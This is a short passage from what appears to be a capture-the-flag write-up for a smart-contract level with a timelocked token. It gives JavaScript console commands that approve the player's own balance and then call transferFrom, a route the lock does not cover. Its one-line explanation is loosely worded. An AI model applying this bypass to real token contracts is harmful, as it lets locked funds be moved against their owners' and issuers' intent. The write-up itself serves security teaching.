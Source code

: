 ```javascript
let balance_to_transfer = await contract.balanceOf(player)

balance_to_transfer = balance_to_transfer.toString()

await contract.approve(player, balance_to_transfer)

await contract.transferFrom(player, "0x0", balance_to_transfer)
```


The vulnerability here is that approve and transferFrom is not implemented, so the timelock does not apply to them.
